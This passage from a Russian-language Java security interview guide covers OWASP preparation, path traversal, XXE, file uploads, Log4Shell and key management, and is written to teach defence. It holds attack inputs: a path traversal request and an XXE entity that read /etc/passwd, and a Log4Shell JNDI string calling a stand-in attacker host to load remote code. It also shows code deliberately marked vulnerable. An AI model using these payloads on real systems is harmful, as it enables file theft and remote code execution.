    throw new InsufficientFundsException();
}
if (amount.compareTo(fromAccount.getDailyLimit()) > 0) {
    throw new DailyLimitExceededException();
}

// Слой 4: аудит
auditService.log("TRANSFER", fromAccount, toAccount, amount);

// Слой 5: БД constraints
// CHECK (balance >= 0) на уровне таблицы
```

Каждый слой защищает от разных сценариев и от ошибок в других слоях.

## Q40. Как подготовиться к вопросам по OWASP на собеседовании?

**Что ожидают от Senior Java Developer:**

1. **Знание всех 10 категорий** — не наизусть определения, а понимание: почему это проблема, как проявляется в Java/Spring, как защищаться
2. **Практический опыт** — конкретные примеры из своих проектов: «мы нашли IDOR в API заказов и исправили через PermissionEvaluator»
3. **Код** — умение написать и уязвимый, и исправленный вариант
4. **Процесс** — как security встроен в SDLC, CI/CD, code review
5. **Trade-offs** — понимание, что безопасность имеет цену (сложность, производительность, UX)

**Структура ответа на вопрос типа «Расскажите про A01»:**
1. Что это (1-2 предложения)
2. Пример уязвимости (код или сценарий)
3. Как защищаться (конкретные меры)
4. Как проверять (тесты, инструменты)

**Частые ловушки:**
- «Мы используем Spring Security, значит защищены» — нет, `Spring Security` защищает аутентификацию и URL-авторизацию, но не от IDOR, injection в native queries, SSRF
- «У нас есть WAF» — WAF — дополнительный слой, но не замена правильного кода
- «Мы шифруем пароли через MD5/SHA-256» — это хэширование, не шифрование, и оба варианта небезопасны для паролей

## Q41. (!) Как реализовать Path Traversal защиту в Java?

**Path Traversal** (CWE-22) — атака, при которой злоумышленник использует последовательности `../` для выхода за пределы разрешённого каталога.

### Уязвимый код

```java
// УЯЗВИМО: прямое использование имени файла из запроса
@GetMapping("/files/{filename}")
public ResponseEntity<Resource> downloadFile(@PathVariable String filename) {
    Path filePath = Paths.get("/var/uploads/" + filename);
    Resource resource = new FileSystemResource(filePath);
    return ResponseEntity.ok(resource);
}
// Атака: GET /files/../../etc/passwd
```

### Безопасная реализация

```java
@GetMapping("/files/{filename}")
public ResponseEntity<Resource> downloadFile(@PathVariable String filename) {
    // 1. Нормализуем путь
    Path baseDir = Paths.get("/var/uploads").toAbsolutePath().normalize();
    Path requestedFile = baseDir.resolve(filename).normalize();

    // 2. Проверяем, что путь не выходит за пределы базовой директории
    if (!requestedFile.startsWith(baseDir)) {
        throw new ResponseStatusException(HttpStatus.BAD_REQUEST, "Invalid file path");
    }

    // 3. Проверяем существование файла
    if (!Files.exists(requestedFile) || !Files.isRegularFile(requestedFile)) {
        throw new ResponseStatusException(HttpStatus.NOT_FOUND);
    }

    // 4. Дополнительно: whitelist допустимых расширений
    String ext = FilenameUtils.getExtension(filename).toLowerCase();
    if (!Set.of("pdf", "png", "jpg", "jpeg").contains(ext)) {
        throw new ResponseStatusException(HttpStatus.BAD_REQUEST, "Unsupported file type");
    }

    Resource resource = new FileSystemResource(requestedFile);
    return ResponseEntity.ok()
        .header(HttpHeaders.CONTENT_DISPOSITION,
            "attachment; filename=\"" + requestedFile.getFileName() + "\"")
        .body(resource);
}
```

### Ключевые меры защиты

| Мера | Реализация |
|------|-----------|
| Нормализация пути | `path.normalize()` убирает `../` |
| Проверка `startsWith` | Гарантирует нахождение в разрешённом каталоге |
| Whitelist расширений | Запрет опасных типов файлов |
| Хранение вне `webroot` | Файлы не доступны напрямую через веб |
| UUID-именование | Замена оригинальных имён на UUID при сохранении |

## Q42. Что такое XXE и как защититься в Java?

**XXE** (XML External Entity Injection, CWE-611) — атака через XML-парсер, который обрабатывает внешние сущности. Позволяет читать локальные файлы, делать SSRF, в редких случаях — RCE.

### Пример атаки

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user><name>&xxe;</name></user>
```

### Уязвимый код

```java
// УЯЗВИМО: SAXParser без отключения внешних сущностей
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
DocumentBuilder db = dbf.newDocumentBuilder();
Document doc = db.parse(inputStream); // читает /etc/passwd!
```

### Безопасная конфигурация парсера

```java
// Безопасный DocumentBuilderFactory
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
// Отключаем DOCTYPE полностью (рекомендуется)
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
// Или точечно — только внешние сущности
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);

DocumentBuilder db = dbf.newDocumentBuilder();
```

### Jackson XML (Spring Boot)

```java
// Безопасная конфигурация JacksonXmlModule
@Bean
public XmlMapper xmlMapper() {
    XmlMapper mapper = new XmlMapper();
    // Jackson 2.x по умолчанию отключает XXE — убедитесь в версии
    mapper.configure(MapperFeature.DEFAULT_VIEW_INCLUSION, false);
    return mapper;
}
```

**Правило**: всегда явно отключайте `DOCTYPE` в XML-парсерах. В современных Spring Boot приложениях предпочтительнее использовать JSON; если XML обязателен — явно конфигурируйте парсер.

## Q43. (!) Как безопасно обрабатывать загрузку файлов в Spring Boot?

Загрузка файлов — одна из наиболее опасных операций: возможны path traversal, хранение исполняемых файлов, DoS через огромные файлы, XSS через SVG/HTML.

### Конфигурация лимитов

```yaml
# application.yml
spring:
  servlet:
    multipart:
      max-file-size: 10MB
      max-request-size: 12MB
      enabled: true
```

### Безопасный контроллер загрузки

```java
@RestController
@RequestMapping("/api/upload")
public class FileUploadController {

    private static final Set<String> ALLOWED_CONTENT_TYPES =
        Set.of("image/jpeg", "image/png", "application/pdf");
    private static final long MAX_FILE_SIZE = 10 * 1024 * 1024; // 10 MB
    private final Path uploadDir = Paths.get("/var/uploads");

    @PostMapping
    public ResponseEntity<String> upload(@RequestParam("file") MultipartFile file)
            throws IOException {

        // 1. Проверка типа контента (не доверяем расширению)
        String contentType = file.getContentType();
        if (!ALLOWED_CONTENT_TYPES.contains(contentType)) {
            throw new ResponseStatusException(HttpStatus.BAD_REQUEST,
                "Unsupported file type: " + contentType);
        }

        // 2. Проверка размера (дополнительно к конфигу)
        if (file.getSize() > MAX_FILE_SIZE) {
            throw new ResponseStatusException(HttpStatus.PAYLOAD_TOO_LARGE);
        }

        // 3. Генерируем безопасное имя через UUID
        String ext = switch (contentType) {
            case "image/jpeg" -> ".jpg";
            case "image/png" -> ".png";
            case "application/pdf" -> ".pdf";
            default -> throw new IllegalStateException();
        };
        String safeFilename = UUID.randomUUID() + ext;

        // 4. Сохраняем в безопасный путь (с проверкой)
        Path targetPath = uploadDir.resolve(safeFilename).normalize();
        if (!targetPath.startsWith(uploadDir)) {
            throw new ResponseStatusException(HttpStatus.BAD_REQUEST);
        }

        // 5. Проверка magic bytes (сигнатуры файла)
        validateMagicBytes(file.getBytes(), contentType);

        Files.copy(file.getInputStream(), targetPath,
            StandardCopyOption.REPLACE_EXISTING);

        return ResponseEntity.ok(safeFilename);
    }

    private void validateMagicBytes(byte[] bytes, String contentType) {
        if ("image/jpeg".equals(contentType)) {
            // JPEG начинается с FF D8 FF
            if (bytes.length < 3 || bytes[0] != (byte) 0xFF ||
                bytes[1] != (byte) 0xD8 || bytes[2] != (byte) 0xFF) {
                throw new ResponseStatusException(HttpStatus.BAD_REQUEST,
                    "Invalid JPEG signature");
            }
        }
        // Аналогично для PNG: 89 50 4E 47, PDF: 25 50 44 46
    }
}
```

### Дополнительные меры

- **Антивирусное сканирование**: ClamAV интеграция через `Java API`
- **Изолированная подсеть**: файловое хранилище в отдельном сегменте сети
- **CDN/Object Storage**: `S3`, `MinIO` — файлы не на app-сервере
- **Запрет исполнения**: `noexec` флаг на `/var/uploads`

## Q44. Как работает Log4Shell и почему это критично?

**Log4Shell** (CVE-2021-44228) — критическая уязвимость в `Apache Log4j 2.x` (CVSS 10.0), позволявшая достичь RCE через JNDI lookup в любом логируемом значении.

### Механизм атаки

```
1. Злоумышленник отправляет HTTP-запрос с заголовком:
   User-Agent: ${jndi:ldap://attacker.com/exploit}

2. Приложение логирует заголовок: log.info("Request from {}", userAgent)

3. Log4j 2.x обрабатывает ${jndi:...} — делает LDAP lookup

4. LDAP-сервер злоумышленника возвращает ссылку на вредоносный Java-класс

5. JVM загружает и выполняет вредоносный код → RCE
```

### Почему это важно понимать

```java
// УЯЗВИМО (Log4j 2.0-2.14.1)
import org.apache.logging.log4j.LogManager;
Logger log = LogManager.getLogger();
log.info("User-Agent: {}", request.getHeader("User-Agent")); // RCE!

// БЕЗОПАСНО: Log4j 2.15.0+ отключает JNDI lookup по умолчанию
// БЕЗОПАСНО: Logback (SLF4J) не имел этой уязвимости
// БЕЗОПАСНО: Java util logging (JUL) не имел этой уязвимости
```

### Уроки для разработчика

1. **Мониторинг уязвимостей зависимостей** — SBOM + SCA tools (`OWASP Dependency-Check`, `Snyk`)
2. **Быстрая реакция** — процедура экстренного обновления зависимостей
3. **Принцип минимальных привилегий** — даже при RCE ограниченный пользователь снижает ущерб
4. **Egress filtering** — блокировка исходящих соединений с app-сервера снижает риск

```xml
<!-- pom.xml: всегда актуальная версия Log4j -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.24.3</version> <!-- минимум 2.17.1 для fix Log4Shell -->
</dependency>
```

## Q45. Как реализовать безопасную работу с Cryptographic Keys в Java?

Неправильное управление ключами — одна из самых частых криптографических ошибок (OWASP A02).

### Антипаттерны

```java
// ПЛОХО: ключ в исходном коде
private static final String SECRET_KEY = "my-secret-key-123";

// ПЛОХО: ключ в environment variable (виден в ps aux, docker inspect)
String key = System.getenv("ENCRYPTION_KEY");

// ПЛОХО: слабый ключ
SecretKey key = new SecretKeySpec("password".getBytes(), "AES"); // 8 байт < 128 бит
```

### Правильная работа с ключами

```java
// 1. Генерация криптографически стойкого ключа
KeyGenerator keyGen = KeyGenerator.getInstance("AES");
keyGen.init(256, new SecureRandom()); // 256-битный ключ
SecretKey secretKey = keyGen.generateKey();

// 2. Хранение в Java KeyStore
KeyStore ks = KeyStore.getInstance("PKCS12");
ks.load(null, null); // создать новый
ks.setKeyEntry("mykey", secretKey, "keyPassword".toCharArray(),
    new Certificate[0]);
// Сохранение в файл (защищённый паролем)
try (var fos = new FileOutputStream("keystore.p12")) {
    ks.store(fos, "storePassword".toCharArray());
}

// 3. Загрузка из KeyStore
KeyStore ks = KeyStore.getInstance("PKCS12");
try (var fis = new FileInputStream("keystore.p12")) {
    ks.load(fis, "storePassword".toCharArray());
}
SecretKey key = (SecretKey) ks.getKey("mykey", "keyPassword".toCharArray());
```

### HashiCorp Vault интеграция в Spring Boot

```yaml
# application.yml
spring:
  cloud:
    vault:
      host: vault.example.com
      port: 8200
      scheme: https
      authentication: KUBERNETES # или TOKEN, AWS_EC2
      kubernetes:
        role: my-app
      kv:
        enabled: true
        backend: secret
        default-context: my-app
```

```java
// Использование секретов из Vault
@Value("${encryption.key}")
private String encryptionKey; // автоматически подтягивается из Vault

// Или через VaultTemplate для динамических секретов
@Autowired
private VaultTemplate vaultTemplate;

public String getDbPassword() {
    VaultResponse response = vaultTemplate.read("database/creds/my-role");
    return (String) response.getData().get("password");
}
```

### Принципы управления ключами

| Принцип | Реализация |
|---------|-----------|
| Separation of duties | Ключи отдельно от приложения |
| Key rotation | Регулярная ротация (Vault TTL, k8s Secret rotation) |
| Least privilege | Каждый сервис — свой ключ с минимальными правами |
| Audit trail | Логирование доступа к ключам |
| HSM для prod | Hardware Security Module для критичных ключей |

---

## See also

- [[application-security-interview|Безопасность приложений]] — общие принципы AppSec, Defense in Depth
- [[authentication-authorization-patterns-interview|Паттерны аутентификации и авторизации]] — RBAC, ABAC, Zero Trust
- [[oauth2-interview|OAuth 2.0 и OpenID Connect]] — авторизационные flows, JWT, токены
- [[spring-security-interview|Spring Security]] — реализация безопасности в Spring
- [[microservices-interview|Микросервисы]] — безопасность в распределённых системах, service mesh
- [[distributed-systems-interview|Распределённые системы]] — безопасность на уровне инфраструктуры
- [[kubernetes-interview|Kubernetes]] — Pod Security, Network Policy, Secrets
- [[http-rest-interview|HTTP и REST]] — security headers, CORS, TLS

- [[application-security-interview|Application Security]]
- [[authentication-authorization-patterns-interview|Authentication and Authorization Patterns]]
- [[jwt-interview|JWT]]
- [[mtls-interview|mTLS (Mutual TLS)]]
- [[oauth2-interview|OAuth2]]
- [[secrets-management-interview|Secrets Management]]
